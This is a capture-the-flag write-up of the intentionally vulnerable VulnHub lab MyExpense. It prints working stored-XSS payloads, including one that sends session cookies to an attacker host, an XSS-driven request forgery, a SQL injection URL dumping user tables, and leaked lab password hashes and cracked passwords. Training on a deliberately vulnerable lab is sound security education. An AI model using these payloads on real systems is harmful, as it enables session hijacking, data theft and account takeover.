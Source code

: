 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/my-expense/","tags":["CTF","write-up"]}
---
```


---
> [!INFO] Description
> MyExpense is a deliberately vulnerable web application that allows you to train in detecting and exploiting different web vulnerabilities. Unlike a more traditional "challenge" application (which allows you to train on a single specific vulnerability), MyExpense contains a set of vulnerabilities you need to exploit to achieve the whole scenario.

> [!INFO]- Scenario
> You are "Samuel Lamotte" and you have just been fired by your company "Furtura Business Informatique". Unfortunately because of your hasty departure, you did not have time to validate your expense report for your last business trip, which still amounts to 750 € corresponding to a return flight to your last customer.
Fearing that your former employer may not want to reimburse you for this expense report, you decide to hack into the internal application called **"MyExpense "** to manage employee expense reports.
So you are in your car, in the company carpark and connected to the internal Wi-Fi (the key has still not been changed after your departure). The application is protected by username/password authentication and you hope that the administrator has not yet modified or deleted your access.
Your credentials were: **samuel/fzghn4lw**
Once the challenge is done, the flag will be displayed on the application while being connected with your (samuel) account.

> [!FAQ]- Miscellaneous
> If you need to restore the database : go to http://IP/config/setup.php
> This works better with VirtualBox rather than VMware

---
# Active reconnaisance
## Enum ports and services
General scan
PORT      STATE SERVICE REASON
```
   7   │ 80/tcp    open  http    syn-ack ttl 64
   8   │ 38575/tcp open  unknown syn-ack ttl 64
   9   │ 53717/tcp open  unknown syn-ack ttl 64
  10   │ 54457/tcp open  unknown syn-ack ttl 64
  11   │ 59781/tcp open  unknown syn-ack ttl 64
```

---
# Vuln analisis
## Port 80
### Focused scan
```
PORT      STATE SERVICE VERSION
   6   │ 80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
   7   │ |_http-server-header: Apache/2.4.25 (Debian)
   8   │ |_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
   9   │ | http-robots.txt: 1 disallowed entry
  10   │ |_/admin/admin.php
  11   │ | http-cookie-flags:
  12   │ |   /:
  13   │ |     PHPSESSID:
  14   │ |_      httponly flag not set
  ```
### Checking `robots.txt`
```
User-agent: *
Disallow: /admin/admin.php
```

Fuzzing the page we just found `/admin` like above.


---
# Exploitation
admin/admin.php
![Pasted image 20240703173824.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703173824.png)
We found an admin panel.
We have more info about us.
`slamotte	Samuel	Lamotte	slamotte@futuraBI.fr	Collaborator	2019-12-03 17:08:09`
We don't have permissions to inactive our user
![Pasted image 20240703174158.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703174158.png)

Trying to login using `slamotte` and `fzghn4lw`.
![Pasted image 20240703175002.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175002.png)

Create a new account.
And the button is disable, but we can inspect the html code.
![Pasted image 20240703175519.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175519.png)
And delete the disable part.
![Pasted image 20240703175631.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175631.png)
Now the button is enable and we can create the new account.
![Pasted image 20240703175654.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175654.png)
We are in the system with an inactive account.
![Pasted image 20240703175913.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175913.png)

Trying XSS creating a new test user with the fields. Don't forget able the button.
![Pasted image 20240703180410.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703180410.png)
Check the admin panel and we have a XSS.
![Pasted image 20240703180550.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703180550.png)
## XSS
To exploit this XSS we need the interaction of a some user, to check if some user is checking the admin panel.
Create a new user with this code on the two last fields.
```js
<script src="http://192.168.122.192/test.js"></script>
```
This code is trying to get the file `test.js` from our server, if someone check the admin panel, the code is executed and we can watch the request on our server.
Mount a server on the attacker machine.
```python
python -m http.server 80
```

### Get the cookie
now in the js file put
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerIP/?cookie=' + document.cookie);
request.send();
```
`PHPSESSID=0iap4q3kqsctljgp13vrcbi1f2`
`0gp9edhmbd1lnnjejhitk4mk65`
`h4a1tpdbhnfjss32mhup0v6d37`
`knjvvrlahr23emlepkqn800ac2`
We got some cookies, one of them is the admin account, but if use that cookie, we can't login, because the system admit just 1 login.

## XSRF
Activate account
Trying another way, if we try to activate the account we have.
![Pasted image 20240704171243.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704171243.png)

Now we know that the admin is constantly visiting the admin panel, so we can set the XSS to the user make a request to the url above.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.122.204/admin/admin.php?id=11&status=active');
request.send();
```
Now we start the python server again ans wait. After a while we can see that the admin make the request and our account should be activate.
![Pasted image 20240704171856.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704171856.png)

After login in, in the expense reports, we see the report and now submit it.
![Pasted image 20240704172227.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704172227.png)
Some has to approve our report, and we see in the profile settings that Manen RIviere is our Manager.
![Pasted image 20240704172450.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704172450.png)
We supposs to Manon has an panel to approve our report, so we'll try to get the Manon cookie sending an js in the message field. Again listen on python server.
![Screenshot_20240704_181923.png](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_181923.png)
We have a few cookies, one of them is the Manager cookie.

![Screenshot_20240704_182401.png](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_182401.png)
Now validate the report. On the green button.

We need that the financial person approve the payment
in the rennes page we will try sqli.

## SQLi
We break the query adding this.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_184024.png)
Now get the information from db
### DB names
information_schema,myexpense,mysql,performance_schema
### myexpense DB
expense,message,site,user
#### User Table
`http://192.168.122.204/site.php?id=2%20union%20select%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27user%27--%20-`

user_id,**username**,**password**,role,lastname,firstname,site_id.....e,max_statement_time

### Username and password
**afoulon:124922b5d61dd31177ec83719ef8110a**
**pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a**
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test:912b7bc95fb9e6885a4685746433f39a
test2:088e03d5b2537942a15e4842d27eb49d

Checking the admin panel again to see all accounts, we are interested on the `Finalcial approvers` accounts and we will try to crack the passwords of them.

`afoulon	Aristide	Foulon	afoulon@futuraBI.fr	Financial approver	2019-12-03 17:08:09`
`pbaudouin	Paul	Baudouin	pbaudouin@futuraBI.fr	Financial approver	2019-12-03 17:08:09`

## Cracking hashes
Checking hashes.com

afoulon:wq6hblv3
pbaudouin:HackMe

Login in like `afoulon` and he don't have our report. But `pbaudouin` has it.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205514.png)

Login as Samuel and get the flag.
> [!check]- User flag
> ![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205739.png)

---
